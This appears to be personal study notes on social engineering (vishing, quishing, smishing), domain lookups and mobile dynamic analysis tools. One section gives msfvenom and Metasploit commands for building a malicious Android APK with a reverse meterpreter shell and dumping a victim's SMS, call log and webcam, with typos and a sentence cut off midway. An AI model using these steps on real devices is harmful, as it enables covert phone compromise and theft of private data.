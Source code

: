 # Information Gathering

Information gathering forms the bedrock of most cyberattacks.  It's the reconnaissance phase where attackers attempt to learn as much as possible about their target.  This could include technical details like network infrastructure, software versions, and security vulnerabilities, as well as organizational information such as employee names, contact details, and organizational structure.  Attackers use a variety of techniques, both passive and active.  Passive methods involve collecting publicly available data like website information, social media profiles, and news articles. Active methods might include port scanning, vulnerability scanning, and even social engineering tactics to elicit information directly from individuals. The logic behind information gathering is simple: the more an attacker knows, the more effectively they can tailor their attack for maximum impact.  This gathered intelligence allows them to identify weak points, choose the right tools, and craft convincing pretexts for social engineering attacks.

- *whois Domain Lookup*
- *whois iplookup*
- *whois MAC lookup*

# Vishing

Vishing, or voice phishing, leverages the telephone system to trick victims into divulging sensitive information.  It preys on the inherent trust people often place in phone calls.  Attackers might impersonate bank officials, technical support personnel, or other authority figures to create a sense of urgency or authority.  They may claim there's a problem with the victim's account, a security breach, or an overdue payment, pressuring the victim to provide personal details, passwords, or financial information.  The logical underpinning of vishing is the exploitation of human psychology.  By creating a sense of fear, urgency, or even excitement, attackers bypass rational thought and manipulate victims into acting impulsively.  Vishing attacks often involve sophisticated social engineering techniques, including pre-recorded messages, spoofed caller IDs, and background noise to simulate a call center environment.

# Quishing

Quishing, or QR code phishing, is a relatively new form of attack that uses malicious QR codes to steal information.  QR codes are increasingly used for legitimate purposes like mobile payments, website access, and product information.  Quishing attacks exploit this growing reliance by creating QR codes that redirect users to fake websites or download malware.  These malicious QR codes can be placed in seemingly innocuous locations, such as posters, advertisements, or even business cards.  When a victim scans the code with their smartphone, they are unknowingly taken to a fraudulent website that mimics a legitimate one, prompting them to enter their credentials or other sensitive data.  The logic of quishing relies on the convenience and assumed safety of QR codes.  Users are often accustomed to quickly scanning codes without verifying their source, making them vulnerable to this type of attack.

# Smishing

Smishing, or SMS phishing, uses text messages to deceive victims.  Similar to vishing, smishing attacks often create a sense of urgency or opportunity.  Attackers might send text messages claiming the victim has won a prize, needs to confirm a delivery, or has a problem with their bank account.  These messages typically include a link to a fake website designed to capture login credentials, credit card information, or other sensitive data.  The logic of smishing exploits the ubiquity and immediacy of text messages.  People are more likely to open and respond to a text message quickly than an email, increasing the chances of a successful attack. Smishing attacks often leverage shortened URLs to obscure the destination, making it harder for victims to identify a malicious link.


# It Is About Finding Them

All these things keeps on happening, you need to consider Domain Lookup.

<div style="border-left: 4px solid #007acc; background-color: #f1f6f9; padding: 10px; border-radius: 5px;">
<strong>Note: </strong> When a machine is involved into some suspicious activity and that the identification of the machine is difficult then it is not that hard to identify using the service providers, say ISPs, even VPN Providers. In India, the Govt ask to keep the Data of the services used for the **3 Months**, and that when asked they should be able to give the information to the Govt. 
</div>
<br> 


**Collaboration with ISPs, VPN Provider**, When you need to identify the machine, you can `traceroute` the machine. 


# Android Security

*So How Does the Android Architecture works?* 

Attacker will have a machine (Kali Linux) and will create a *.apk* file that will have the malicious code and through social engineering he'll be making implementing the payload and victim (Android Phone) will be downloading the .apk file and will get hack. 

```
sudo msfvenom -p androud/meterpreter/reverse_http LHOST=192..168.100.228 LPORT=5000 > hack.apk
```

You need to open the listening port on the saem server and this you will be able to respond to the requests of the Android Device and this you'll need to open the mfsconsole and run the multi/handler. Start by msfconsole.

```
sudo mfsconsole
```

Then use the `multi/handler`.

```
use multi/handler
```

After multi/handler you need to set the reverse meterpreter that will send the request to android device for the reverse shell using the following command.

```
set payload android/meterpreter/reverse_tcp
```

Then set the LHOST as the IP of the server/machine that is running the apache server meaning the IP address of the machine, the you need to specify the listening port that tht 

Now you can dump the messages using the following command.

```
dump_sms

dump-callog

dump_snap

webcam_snap
```

# Dynamic Analyser for Mobile Applications

A Dynamic Analyzer for Mobile Applications is a security testing tool that analyzes an app's behavior *while it's running*. This is in contrast to static analysis, which examines the app's code without executing it. Dynamic analysis provides insights into the app's runtime behavior, memory usage, network interactions, and potential vulnerabilities that might not be detectable through static analysis alone.

Dynamic analysis is a crucial component of mobile app security testing, providing valuable insights into an app's runtime behavior and helping developers identify and fix vulnerabilities that might not be detectable through other methods.  It's often used in conjunction with static analysis to provide a comprehensive security assessment.

Dynamic analysis tools typically instrument the app or the underlying operating system to monitor its execution.  They track various events and interactions, such as:

* **System Calls**,  Observing how the app interacts with the operating system, including file access, network connections, and permission requests.
* **Network Traffic**,  Capturing and analyzing the data exchanged between the app and external servers, identifying potential leaks of sensitive information or insecure communication practices.
* **Memory Usage**, Monitoring memory allocation and deallocation to detect memory leaks or buffer overflows.
* **User Interface Interactions**,  Recording user actions and the app's responses to identify UI-related vulnerabilities or logic flaws.
* **Code Execution**, Tracking the flow of execution through the app's code to identify potential vulnerabilities or unexpected behavior.

Few examples are below:

* **Frida:** A popular open-source dynamic instrumentation toolkit.
* **MobSF (Mobile Security Framework):** An all-in-one automated mobile app security testing framework.
* **Drozer:** A security assessment framework for Android.
* **Cydia Substrate:**  A code injection platform for iOS (jailbroken devices).

Dynamic analysis only covers the parts of the app that are executed during the testing session.  It may miss vulnerabilities in code paths that are not exercised. Thus, Environment dependencies are another issue, results can be influenced by the specific device and operating system version being used for testing. False Positives/Negatives, dynamic analyzers can sometimes generate false positives (reporting vulnerabilities that don't actually exist) or false negatives (failing to detect existing vulnerabilities).







